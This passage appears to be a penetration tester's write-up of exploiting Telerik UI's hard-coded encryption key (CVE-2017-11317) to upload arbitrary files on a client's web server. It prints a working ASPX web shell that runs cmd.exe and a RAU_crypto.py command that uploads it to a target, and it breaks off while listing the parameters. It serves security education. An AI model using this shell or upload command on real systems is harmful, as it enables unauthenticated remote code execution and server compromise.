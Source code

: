 However, up until version v2017.2.621, Telerik RadAsyncUpload was configured to use a **hard-coded key** (CVE-2017-11317) to encrypt data in file upload requests. Therefore, an attacker could perform requests to the "_/Telerik.Web.Ui.WebResource.axd?type=rau_" endpoint with a custom encrypted _rauPostData_ parameter to upload arbitrary files within any directory of the web server.

Later on, researchers also found out that the _rauPostData_ was subject to **insecure deserialization** within the .NET code of Telerik since it contained the class type that was used to deserialize the object.

This vulnerability led to remote code execution (CVE-2019-18935) and is now publicly available as a tool.

### Real Life Scenario

The present article will focus on how the arbitrary file upload vulnerability (CVE-2017-11317) was addressed within a real life scenario.

During a network penetration test for a client, the presence of Telerik UI was detected on a web application since it performed requests to the "_/Telerik.Web.UI.WebResource.axd"_ endpoint to download JavaScript files for its UI.

By analyzing some response of the application it was possible to find the string "_2014.2.724.40_" in a HTML comment, indicating the presence of Telerik UI version 2014.2.724 vulnerable to the mentioned CVEs.

Also, thanks to a full path disclosure vulnerability of the application it was possible to identify the path of a folder within the web root of the application.

It was enough to upload a malicious ".aspx" file within the web root of the application and achieve an unauthenticated remote code execution:

```
<%@ Page Language="VB" Debug="true" %><%@ import Namespace="system.IO" %><%@ import Namespace="System.Diagnostics" %>​<html xmlns="www.w3.org/1999/xhtml"><head runat="server">    <title>Test</title></head><body>    <form id="form1" runat="server">    <div>    <%     Dim myProcess As New Process()                Dim myProcessStartInfo As New ProcessStartInfo("c:windowssystem32cmd.exe")    myProcessStartInfo.UseShellExecute = false    myProcessStartInfo.RedirectStandardOutput = true    myProcess.StartInfo = myProcessStartInfo    myProcessStartInfo.Arguments="/c dir"    myProcess.Start()    Dim myStreamReader As StreamReader = myProcess.StandardOutput    Dim myString As String = myStreamReader.Readtoend()    myProcess.Close()    mystring=replace(mystring,"<","&lt;")    mystring=replace(mystring,">","&gt;")    Response.Write(vbcrlf & "<pre>" & mystring & "</pre>")    %>    </div>    </form></body></html>
```

File Upload Exploitation

In order to upload the aspx file, the RAU\_crypto tool was used to automatically create a valid file upload request encrypted with the hard-coded key of Telerik.

The tool was invoked using the following command line string:

```
python RAU_crypto.py -P c:\destination\folder 2014.2.724 malicious.aspx http://victim.com/Telerik.Web.UI.WebResource.axd?type=rau BurpProxyHost:8080
```

The command line parameters contain the following information:
